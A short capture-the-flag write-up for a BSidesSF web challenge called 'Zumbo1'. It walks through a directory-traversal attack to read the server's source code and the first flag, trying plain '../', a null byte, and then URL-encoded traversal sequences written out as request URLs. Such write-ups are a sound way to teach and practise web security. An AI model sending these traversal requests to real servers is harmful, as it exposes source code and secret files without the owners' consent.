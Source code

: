 Challenge: Zumbo1 
----------------------------------------
Category: Web 
----------------------------------------
20 points 
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stages 2 and 3 - coming soon!

```

We connect to the site.

<img src="./../files/site2.png">

```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:
http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```
<img src="./../files/erreur_null_byte.png">
```

We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py


<img src="./../files/flag1.png">


Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

``` 
